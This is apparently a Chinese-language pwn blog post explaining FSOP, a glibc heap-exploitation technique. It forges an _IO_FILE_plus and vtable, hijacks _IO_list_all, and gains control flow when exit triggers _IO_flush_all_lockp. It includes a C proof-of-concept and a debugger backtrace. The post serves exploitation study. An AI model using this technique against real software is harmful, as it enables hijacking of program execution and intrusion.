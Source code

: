 ```yaml
---
title: FSOP
date: 2018-07-05 10:51:47
categories: pwn
tags: IO_FILE
---
```


## 介绍

FSOP是File Stream Oriented Programming的缩写，根据前面对FILE的介绍得知进程内所有的_IO_FILE结构会使用_chain域相互连接形成一个链表，这个链表的头部由_IO_list_all维护。

FSOP的核心思想就是劫持_IO_list_all的值来伪造链表和其中的_IO_FILE项，但是单纯的伪造只是构造了数据还需要某种方法进行触发。FSOP选择的触发方法是调用_IO_flush_all_lockp，这个函数会刷新_IO_list_all链表中所有项的文件流，相当于对每个FILE调用fflush，也对应着会调用_IO_FILE_plus.vtable中的_IO_overflow。

```
int
_IO_flush_all_lockp (int do_lock)
{
  ...
  fp = (_IO_FILE *) _IO_list_all;
  while (fp != NULL)
  {
       ...
       if (((fp->_mode <= 0 && fp->_IO_write_ptr > fp->_IO_write_base))
               && _IO_OVERFLOW (fp, EOF) == EOF)
           {
               result = EOF;
          }
        ...
  }
}
```

![img](/images/2018-07-05/abort_routine.001.jpeg)

而_IO_flush_all_lockp不需要攻击者手动调用，在一些情况下这个函数会被系统调用：

1.当libc执行abort流程时

2.当执行exit函数时

3.当执行流从main函数返回时

## 示例

梳理一下FSOP利用的条件，首先需要攻击者获知libc.so基址，因为_IO_list_all是作为全局变量储存在libc.so中的，不泄漏libc基址就不能改写_IO_list_all。

之后需要用任意地址写把_IO_list_all的内容改为指向我们可控内存的指针，

之后的问题是在可控内存中布置什么数据，毫无疑问的是需要布置一个我们理想函数的vtable指针。但是为了能够让我们构造的fake_FILE能够正常工作，还需要布置一些其他数据。 这里的依据是我们前面给出的

```
if (((fp->_mode <= 0 && fp->_IO_write_ptr > fp->_IO_write_base))
               && _IO_OVERFLOW (fp, EOF) == EOF)
           {
               result = EOF;
          }
```

也就是

- fp->_mode <= 0
- fp->_IO_write_ptr > fp->_IO_write_base

在这里通过一个示例来验证这一点，首先我们分配一块内存用于存放伪造的vtable和_IO_FILE_plus。 为了绕过验证，我们提前获得了_IO_write_ptr、_IO_write_base、_mode等数据域的偏移，这样可以在伪造的vtable中构造相应的数据

```
#define _IO_list_all 0x7ffff7dd2520
#define mode_offset 0xc0
#define writeptr_offset 0x28
#define writebase_offset 0x20
#define vtable_offset 0xd8

int main(void)
{
    void *ptr;
    long long *list_all_ptr;

    ptr=malloc(0x200);

    *(long long*)((long long)ptr+mode_offset)=0x0;
    *(long long*)((long long)ptr+writeptr_offset)=0x1;
    *(long long*)((long long)ptr+writebase_offset)=0x0;
    *(long long*)((long long)ptr+vtable_offset)=((long long)ptr+0x100);

    *(long long*)((long long)ptr+0x100+24)=0x41414141;

    list_all_ptr=(long long *)_IO_list_all;

    list_all_ptr[0]=ptr;

    exit(0);
}
```

我们使用分配内存的前0x100个字节作为_IO_FILE_plus，后0x100个字节作为vtable，在vtable中使用0x41414141这个地址作为伪造的_IO_overflow指针。

之后，覆盖位于libc中的全局变量 _IO_list_all，把它指向我们伪造的_IO_FILE_plus。

通过调用exit函数，程序会执行 _IO_flush_all_lockp，经过fflush获取_IO_list_all的值并取出作为_IO_FILE_plus调用其中的_IO_overflow

```
---> call _IO_overflow
[#0] 0x7ffff7a89193 → Name: _IO_flush_all_lockp(do_lock=0x0)
[#1] 0x7ffff7a8932a → Name: _IO_cleanup()
[#2] 0x7ffff7a46f9b → Name: __run_exit_handlers(status=0x0, listp=<optimized out>, run_list_atexit=0x1)
[#3] 0x7ffff7a47045 → Name: __GI_exit(status=<optimized out>)
[#4] 0x4005ce → Name: main()
```